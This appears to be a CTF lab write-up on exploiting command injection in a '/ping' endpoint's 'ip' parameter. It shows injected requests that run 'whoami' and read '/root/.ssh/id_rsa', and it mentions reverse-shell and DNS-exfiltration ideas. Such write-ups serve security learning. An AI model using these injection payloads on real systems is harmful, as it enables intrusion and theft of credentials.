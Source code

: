 # 🧪 Command Injection via Ping Endpoint

**Date:** 2025-05-21  
**Category:** Web / Command Injection  
**Lab/Platform:** Custom Challenge / CTF  

---

## 🧠 Objective

Identify and exploit command injection vulnerability in the `ip` parameter of a `/ping` endpoint to:

- Enumerate internal hosts
- Confirm remote code execution
- Exfiltrate sensitive data (`.ssh` keys, etc.)

---

## 🔍 Discovery

Initial request:
```
GET /ping?ip=10.0.0.1
```

Returned:
```
Pinging 10.0.0.1 with 32 bytes of data...
```

Tried injecting:
```
GET /ping?ip=127.0.0.1;whoami
```

Got:
```
Pinging 127.0.0.1
root
```

✅ **Command Injection confirmed.**

---

## 🔨 Exploitation Steps

1. Enumerated internal network:
   - Loop from `10.0.0.1` to `10.0.0.254`
   - Used bash script and checked response differences

2. Checked for `.ssh`:
   ```
   /ping?ip=127.0.0.1;cat /root/.ssh/id_rsa
   ```

   → Found private key

3. Tried reverse shell (didn't work due to firewall)

---

## 📚 What I Learned

- Difference between SSRF and command injection
- Using `;`, `|`, `&&` to break into shell
- Using response timing to detect blind injection

---

## 🚀 Next Steps

- Try chaining with curl/wget for reverse shell
- Research blind injection with DNS-based exfil
- Automate with Python + threading
